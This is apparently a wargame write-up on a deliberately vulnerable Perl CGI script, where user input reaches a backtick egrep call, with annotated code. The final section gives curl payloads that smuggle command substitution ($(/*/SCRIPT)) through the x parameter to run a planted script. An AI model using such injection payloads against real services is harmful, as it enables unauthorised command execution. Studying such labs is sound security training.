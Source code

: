 in this exercise we got a perl file at the home directory.
The server is listening the localhost:4646 and capturing query parameters x and y.

```perl
    #!/usr/bin/env perl
    # localhost:4646
    use CGI qw{param};
    print "Content-type: text/html\n\n";

    sub t {
      $nn = $_[1];
      $xx = $_[0];
      $xx =~ tr/a-z/A-Z/;
      $xx =~ s/\s.*//;
      @output = `egrep "^$xx" /tmp/xd 2>&1`;
      foreach $line (@output) {
          ($f, $s) = split(/:/, $line);
          if($s =~ $nn) {
              return 1;
          }
      }
      return 0;
    }

    sub n {
      if($_[0] == 1) {
          print("..");
      } else {
          print(".");
      }
    }

    n(t(param("x"), param("y")));
```

Then it perform function t and n

```perl
    sub t {
      $nn = $_[1];                              // asigning param y to "$nn"
      $xx = $_[0];                              // asigning param x to "$xx"
      $xx =~ tr/a-z/A-Z/;                       // tr/ operator is translating the firstlist /a-z/ to the secondlist /A-Z/ (putting character to uppercase)
      $xx =~ s/\s.*//;                          // s/ substitute operator is replacing /\s.*/ by // (simply removing everything after the first space)
      @output = `egrep "^$xx" /tmp/xd 2>&1`;    // backtick are executing `egrep "^$xx" /tmp/xd 2>&1` the ^ means the first match
      foreach $line (@output) {
          ($f, $s) = split(/:/, $line);
          if($s =~ $nn) {
              return 1;
          }
      }
      return 0;
    }
```

The solution ive found to answer all the needs to execute something :
- Need to be only in uppercase
- Need to have no space
- Need to be the first match

We can write a script with uppercase name:
    /tmp/SCRIPT

Give it as argument and use the wildcard /* to test every directory from root
    curl 'http://127.0.0.1:4646?x=/*/SCRIPT'

We finaly need to use the command substitution to execute the command /tmp/SCRIPT :

    curl 'http://127.0.0.1:4646?x=$(/*/SCRIPT)'
                    or
    curl 'http://127.0.0.1:4646?x=`/*/SCRIPT`'
